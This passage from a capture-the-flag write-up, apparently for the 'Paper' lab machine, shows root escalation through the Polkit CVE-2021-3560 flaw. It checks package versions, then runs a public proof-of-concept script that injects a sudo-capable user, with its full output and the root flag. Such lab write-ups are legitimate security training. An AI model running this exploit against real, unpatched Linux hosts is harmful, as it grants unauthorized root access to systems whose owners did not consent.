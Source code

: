 Of course, running a later version does not show the box as vulnerable to the
CVE as `yum list installed | grep polkit` return an empty string.
Nonetheless the box is vulnerable to it. This information can be found using
directly `rmp` to list the package and looking at the `polkit` version (v0.113
to v0.118 are vulnerable).

    :::text
    [dwight@paper ~]$ rpm -qa|grep -i polkit
    polkit-0.115-6.el8.x86_64
    polkit-pkla-compat-0.1-12.el8.x86_64
    polkit-libs-0.115-6.el8.x86_64


## Polkit

[The Polkit exploit](https://github.blog/2021-06-10-privilege-escalation-polkit-root-on-linux-with-bug/)
is largely documented but as it is race condition it need to be performed
quickly. Moreover the box author used a cleanup mechanism that regularly (2
minutes) rewrite the `/etc/passwd` and `/etc/shadow` files. The box author
developed a [script, publish on github](https://github.com/secnigma/CVE-2021-3560-Polkit-Privilege-Esclation/)
that automate this process. We can run the `poc.sh` on the box and `switch user`
as `secnimga` and then `sudo bash` to get a root shell and get the flag.

    :::text
    [dwight@paper ~]$ sh poc.sh -t=0.002 && su secnigma

    [!] Username set as : secnigma
    [!] Timing set to : 0.002
    [!] Force flag not set.
    [!] Vulnerability checking is ENABLED!
    [!] Starting Vulnerability Checks...
    [!] Checking distribution...
    [!] Detected Linux distribution as "centos"
    [!] Checking if Accountsservice and Gnome-Control-Center is installed
    [+] Accounts service and Gnome-Control-Center Installation Found!!
    [!] Checking if polkit version is vulnerable
    [+] Polkit version appears to be vulnerable!!
    [!] Starting exploit...
    [!] Inserting Username secnigma...
    Error org.freedesktop.Accounts.Error.PermissionDenied: Authentication is required
    [+] Inserted Username secnigma  with UID 1005!
    [!] Inserting password hash...
    [!] It looks like the password insertion was succesful!
    [!] Try to login as the injected user using sudo - secnigma
    [!] When prompted for password, enter your password
    [!] If the username is inserted, but the login fails; try running the exploit again.
    [!] If the login was succesful,simply enter 'sudo bash' and drop into a root shell!
    Password:
    [secnigma@paper dwight]$ id
    uid=1005(secnigma) gid=1005(secnigma) groups=1005(secnigma),10(wheel)
    [secnigma@paper dwight]$ sudo bash
    [sudo] password for secnigma:
    [root@paper dwight]# cat^C
    [root@paper dwight]# cd
    [root@paper ~]# cd /root/
    [root@paper ~]# cat root.txt
    254b5756cdc3dfa2cc7ff4703e76758d


# Wrapping up

Overall a great realistic box with a lot of interaction and different
vulnerabilities for the user part.
